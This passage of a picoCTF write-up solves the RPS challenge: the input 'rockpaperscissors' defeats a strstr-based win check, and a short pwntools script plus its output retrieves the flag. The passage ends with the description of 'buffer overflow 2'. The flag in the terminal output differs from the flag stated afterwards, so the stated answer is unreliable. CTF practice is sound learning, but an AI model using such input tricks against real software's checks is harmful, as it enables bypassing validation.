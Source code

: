 <details><summary>Hint 1</summary></details>

### ***Writeup***
Looking at the source code, I need `wins` to be greater than 5 for the program to print the flag to the console. The `wins` variable is accumulated if `play()` returns true, which is if `strstr(player_turn, loses[computer_turn])` also returns a non-zero result. Looking at the man pages for `strstr` shows that it is in the form of `char *strstr(const char *haystack, const char *needle)`, where `strstr()` finds the first occurrence of the substring `needle` in the string `haystack`. It then returns a pointer to the beginning of the located substring. Therefore, the program tries to find the specific string of `loses[computer_turn]` in the `player_turn` string that we provided to the program, where `char* loses[3] = {"paper", "scissors", "rock"};`. Essentially, create a string where if `strstr` tries to find the substring match it succeeds on all occurrences, so such a string that does that is `rockpaperscissors` because each choice is a substring in that input string.

Code for `RPS.py`:

```python
from pwn import *

p = remote('saturn.picoctf.net', 51420)

for i in range(5):
        p.sendline(b'1')                        # play game
        p.sendline(b'rockpaperscissors')        # selection

for i in range(6):
        print(p.recvline())
```

Terminal output:

```bash
└─$ python3 RPS.py
[+] Opening connection to saturn.picoctf.net on port 51420: Done
b'rockpaperscissors\r\n'
b'You played: rockpaperscissors\r\n'
b'The computer played: scissors\r\n'
b'You win! Play again?\r\n'
b"Congrats, here's the flag!\r\n"
b'picoCTF{50M3_3X7R3M3_1UCK_58F0F41B}\r\n'
[*] Closed connection to saturn.picoctf.net port 51420
```

Flag: `picoCTF{50M3_3X7R3M3_1UCK_D80B11AA}`

## **buffer overflow 2**

### ***Description***

<button name="button" onclick="http://www.google.com">Launch Instance</button> <br>
Control the return address and arguments<br>
This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/344/vuln)?<br>
You can view source [here](https://artifacts.picoctf.net/c/344/vuln.c). And connect with it using `nc saturn.picoctf.net 60855`
